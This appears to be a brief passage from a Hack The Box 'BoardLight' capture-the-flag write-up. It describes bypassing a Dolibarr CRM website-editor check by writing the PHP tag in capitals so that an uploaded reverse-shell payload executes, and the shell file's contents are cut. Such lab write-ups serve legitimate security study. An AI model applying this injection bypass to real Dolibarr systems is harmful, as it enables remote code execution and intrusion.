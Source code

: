 ![](images/2024-05-25_16-29_dolibarr_crm_website_skel_website.png)

For the payload we had to change `<php` to `<PHP` in capital letters to get executed.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/BoardLight/files]
└─$ cat php_reverse_shell.php 
<?PHP
<--- CUT FOR BREVITY --->
```

![](images/2024-05-25_16-30_dolibarr_crm_website_payload.png)
